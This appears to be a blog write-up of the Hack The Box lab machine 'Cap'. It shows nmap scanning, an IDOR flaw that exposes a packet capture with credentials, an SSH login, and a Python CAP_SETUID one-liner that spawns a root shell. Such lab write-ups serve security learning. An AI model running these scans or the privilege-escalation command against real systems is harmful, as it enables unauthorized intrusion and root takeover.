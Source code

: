 ```yaml
---
layout: single
title: Cap - Hack The Box
excerpt: "Cap is an easy difficulty Linux machine running an HTTP server that performs administrative functions including performing network captures. Improper controls result in Insecure Direct Object Reference (IDOR) giving access to another user's capture. The capture contains plaintext credentials and can be used to gain foothold. A Linux capability is then leveraged to escalate to root. "
date: 2025-05-10
classes: wide
header:
  teaser: /img2/cap.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - Insecure Directory Object Reference (IDOR)
  - Information Leakage
  - Abusing Capabilities (Python3.8) [Privilege Escalation]
---
```



## Reconnaissance

- Nmap

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.10.245
```

![](/img2/Pasted%20image%2020250510161529.png)

- Vulnerability and version scan

```bash
nmap -sCV -p21,22,80 -vvv 10.10.10.245 
```

![](/img2/Pasted%20image%2020250510161744.png)

## Exploitation

- IDOR 

![](/img2/Pasted%20image%2020250510163241.png)

![](/img2/Pasted%20image%2020250510163341.png)

```bash
ssh nathan@10.10.10.245
```

## Post-exploitation

- Capabilities

```bash
getcap -r / 2>/dev/null
```

![[Pasted image 20250510164146.png]]

- Python3.8 CAP_SETUID

```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

![](/img2/Pasted%20image%2020250510164405.png)